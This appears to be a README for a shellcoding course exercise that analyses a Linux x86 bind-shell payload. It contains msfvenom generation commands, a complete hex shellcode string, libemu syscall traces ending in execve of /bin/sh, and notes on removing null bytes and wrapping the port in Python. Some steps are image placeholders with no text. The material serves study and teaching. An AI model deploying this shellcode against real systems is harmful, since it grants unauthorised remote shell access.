



# Exercise 1

## Usage

```
python3 wrapper.py $PORT
```


If the port causes problems, a warning message appears:



## Super-quick

```
msfvenom -p linux/x86/shell_bind_tcp LPORT=8888 --platform=Linux -a x86 -f c | grep '"' | sed -e 's/\"//g' | paste -sd "" -
```
```
echo -ne "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x5b\x5e\x52\x68\x02\x00\x22\xb8\x6a\x10\x51\x50\x89\xe1\x6a\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"  | ndisasm -u -
```

## Steps

Get "sctest" result (also using *libemu.sh* script in **scripts/** folder):
```
msfvenom -p linux/x86/shell_bind_tcp --platform=Linux -a x86 -f raw LPORT=8888 | ./sctest -vvv -Ss 10000 -G bindshell.dot

-------------------------------------

sh libemu.sh "msfvenom -p linux/x86/shell_bind_tcp --platform=Linux -a x86 -f raw LPORT=8888" bindshell | tee libemu_res/libemu_res.txt
```

Get hexadecimal values for every syscall (also using *syscallhex.sh* script in **scripts/** folder):
```
cat /usr/include/i386-linux-gnu/asm/unistd_32.h | listen

printf "%x\n" 363

-------------------------------------

sh syscallhex.sh listen
```

Result:

```
int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int bind (
     int sockfd = 14;
     struct sockaddr_in * my_addr = 0x00416fc2 => 
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 47138 (port=8888);
             struct in_addr sin_addr = {
                 unsigned long s_addr = 0 (host=0.0.0.0);
             };
             char sin_zero = "       ";
         };
     int addrlen = 16;
) =  0;
int listen (
     int s = 14;
     int backlog = 0;
) =  0;
int accept (
     int sockfd = 14;
     sockaddr_in * addr = 0x00000000 => 
         none;
     int addrlen = 0x00000010 => 
         none;
) =  19;
int dup2 (
     int oldfd = 19;
     int newfd = 14;
) =  14;
int dup2 (
     int oldfd = 19;
     int newfd = 13;
) =  13;
int dup2 (
     int oldfd = 19;
     int newfd = 12;
) =  12;
int dup2 (
     int oldfd = 19;
     int newfd = 11;
) =  11;
int dup2 (
     int oldfd = 19;
     int newfd = 10;
) =  10;
int dup2 (
     int oldfd = 19;
     int newfd = 9;
) =  9;
int dup2 (
     int oldfd = 19;
     int newfd = 8;
) =  8;
int dup2 (
     int oldfd = 19;
     int newfd = 7;
) =  7;
int dup2 (
     int oldfd = 19;
     int newfd = 6;
) =  6;
int dup2 (
     int oldfd = 19;
     int newfd = 5;
) =  5;
int dup2 (
     int oldfd = 19;
     int newfd = 4;
) =  4;
int dup2 (
     int oldfd = 19;
     int newfd = 3;
) =  3;
int dup2 (
     int oldfd = 19;
     int newfd = 2;
) =  2;
int dup2 (
     int oldfd = 19;
     int newfd = 1;
) =  1;
int dup2 (
     int oldfd = 19;
     int newfd = 0;
) =  0;
int execve (
     const char * dateiname = 0x00416fb2 => 
           = "/bin//sh";
     const char * argv[] = [
           = 0x00416faa => 
               = 0x00416fb2 => 
                   = "/bin//sh";
           = 0x00000000 => 
             none;
     ];
     const char * envp[] = 0x00000000 => 
         none;
) =  0;
```


## Deleting NOPs

[socket] generates NOPs:



It is possible to solve it using the stack:


[accept_res] generates NOPs:


It is possible to solve it using the stack:


There is not NOPs anymore:


## Creating Python wrapper 

Get the shellcode:


Change the "\\" to "\\\\":



Detect where the port (8888 or 0x22b8 in hexadecimal) is being used:


Substitute that value in the original shellcode for a variable:


## Useful links
```
http://man7.org/linux/man-pages/man2/socket.2.html
https://stackoverflow.com/questions/19850082/using-nasm-and-tcp-sockets
http://man7.org/linux/man-pages/man2/socket.2.html
https://rosettacode.org/wiki/Sockets
http://www6.uniovi.es/cscene/CS5/CS5-05.html
https://stackoverflow.com/questions/48773917/why-creating-a-remote-shell-using-execve-doesnt-overwrite-file-descriptors-and
```
